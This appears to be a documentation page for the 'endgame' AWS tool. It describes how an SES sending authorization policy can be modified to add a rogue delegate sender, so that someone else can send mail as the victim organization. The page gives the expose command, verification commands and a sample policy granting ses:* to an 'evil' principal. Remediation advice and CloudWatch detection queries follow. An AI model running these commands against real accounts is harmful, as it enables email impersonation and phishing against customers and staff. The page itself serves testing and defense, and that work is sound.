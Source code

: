 # SES Sender Authorization Policies

SES Sending Authorization Policies can be used to add a rogue IAM user as a [Delegate sender](https://docs.aws.amazon.com/ses/latest/DeveloperGuide/sending-authorization-delegate-sender-tasks.html). This can result in a malicous user sending an email on behalf of your organization, which could lead to phishing attacks against customers or employees, as well as a loss of consumer trust and reputation loss.

### How it works

Sending authorization is based on sending authorization policies. If you want to enable a delegate sender to send on your behalf, you create a sending authorization policy and associate the policy to your identity by using the Amazon SES console or the Amazon SES API.

When Amazon SES receives the request to send the email, it checks your identity's policy (if present) to determine if you have authorized **the delegate sender** to send on the identity's behalf. If the delegate sender is authorized, Amazon SES accepts the email.

This can be abused by adding a rogue user as a [Delegate sender](https://docs.aws.amazon.com/ses/latest/DeveloperGuide/sending-authorization-delegate-sender-tasks.html).

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service ses --name test-resource-exposure.com
```

* To verify that the sender authorization policy has been set to allow actions from the rogue user, run the following command from the victim account:

```bash
aws ses list-identity-policies --identity test-resource-exposure.com
```

The command above will return the following:

```bash
{
    "PolicyNames": [
        "Endgame"
    ]
}
```

* Take the response from the command above - `Endgame` - and list the policy name in the command below

```bash
aws ses get-identity-policies --identity test-resource-exposure.com --policy-names "Endgame"
```

* Observe that the contents match the example shown below

## Example

The policy below allows the Evil Principal (`arn:aws:iam::999988887777:user/evil` access to `ses:*` to the victim resource (`arn:aws:ses:us-east-1:111122223333:identity/test-resource-exposure.com`), indicating a successful compromise.

```json
{
    "Policies": {
        "Endgame": "{\"Version\":\"2012-10-17\",\"Statement\":[{\"Sid\":\"AllowCurrentAccount\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::111122223333:root\"},\"Action\":\"ses:*\",\"Resource\":\"arn:aws:ses:us-east-1:111122223333:identity/test-resource-exposure.com\"},{\"Sid\":\"Endgame\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::999988887777:user/evil\"},\"Action\":\"ses:*\",\"Resource\":\"arn:aws:ses:us-east-1:111122223333:identity/test-resource-exposure.com\"}]}"
    }
}

```

## Exploitation

## Remediation

> ‼️ **Note**: At the time of this writing, AWS Access Analyzer does **NOT** support auditing of this resource type to prevent resource exposure. We kindly suggest to the AWS Team that they support all resources that can be attacked using this tool.

* **Trusted Accounts Only**: Ensure that SES Authorization Policies only authorize specific delegate senders according to your design.
* **Ensure access is necessary**: For any delegate senders that do have access, ensure that the access is absolutely necessary.
* **Restrict access to IAM permissions that could lead to manipulation of your SES Sender Authorization Policies**: Tightly control access to the following IAM actions:
  - [ses:PutIdentityPolicy](https://docs.aws.amazon.com/ses/latest/APIReference/API_PutIdentityPolicy.html): _Adds or updates a sending authorization policy for the specified identity (an email address or a domain)_
  - [ses:DeleteIdentityPolicy](https://docs.aws.amazon.com/ses/latest/APIReference/API_DeleteIdentityPolicy.html): _Deletes the policy associated with the identity_
  - [ses:GetIdentityPolicies](https://docs.aws.amazon.com/ses/latest/APIReference/API_GetIdentityPolicies.html): _Returns the requested sending authorization policies for the given identity (an email address or a domain)_
  - [ses:ListIdentities](https://docs.aws.amazon.com/ses/latest/APIReference/API_ListIdentities.html): _Returns a list containing all of the identities (email addresses and domains) for your AWS account, regardless of verification status	_
  - [ses:ListIdentityPolicies](https://docs.aws.amazon.com/ses/latest/APIReference/API_ListIdentityPolicies.html): _Returns a list of sending authorization policies that are attached to the given identity (an email address or a domain)_

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent 
| filter eventSource='ses.amazonaws.com' AND (eventName='PutIdentityPolicy' or eventName='DeleteIdentityPolicy')
```

The following query detects policy modifications which include the default IOC string:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent 
| filter eventSource='ses.amazonaws.com' AND (eventName='PutIdentityPolicy' and requestParameters.policyName='Endgame')
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

* [put-identity-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ses/put-identity-policy.html)

* [Sending Authorization Overview](https://docs.aws.amazon.com/ses/latest/DeveloperGuide/sending-authorization-overview.html)

* [Sending Authorization Policy Examples](https://docs.aws.amazon.com/ses/latest/DeveloperGuide/sending-authorization-policy-examples.html)
* [Delegate sender](https://docs.aws.amazon.com/ses/latest/DeveloperGuide/sending-authorization-delegate-sender-tasks.html)
